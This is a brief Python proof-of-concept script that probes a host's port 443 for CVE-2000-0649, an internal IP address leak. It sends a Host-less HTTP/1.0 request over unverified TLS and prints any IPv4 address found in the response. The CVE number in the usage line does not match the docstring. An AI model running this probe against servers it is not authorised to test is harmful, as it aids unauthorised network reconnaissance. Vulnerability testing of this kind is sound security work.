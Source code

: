 POC
---

    #!/usr/bin/env python3
    # Written by Rafe Hart (@rafael_hart)
    """ Test an IP address (port 443) for CVE-2000-0649 """

    import ssl
    import socket
    import re
    import sys

    def main():
        if len(sys.argv) == 1:
            print("\nUsage: cve-2000-0643.py <example.com> or <IP>\n")
            sys.exit(1)
        target = sys.argv[1]

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        try:
            s.connect((target, 443))
            s = ssl.wrap_socket(s, keyfile=None, certfile=None, server_side=False, cert_reqs=ssl.CERT_NONE, ssl_version=ssl.PROTOCOL_SSLv23)
            s.sendall(b'GET / HTTP/1.0\r\n\r\nConnection: close\r\n\r\n')
        except socket.error as exc:
            print("Did't work: %s" % exc)

        while True:
            new = s.recv(4096)
            if not new:
                s.close()
                break
            try:
                response = new.decode()
                pattern = re.compile(r'(\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3})')
                if pattern.search(response):
                    print(target, "->", pattern.search(response).group())
            except:
                sys.exit(1)


    if __name__ == '__main__':
        main()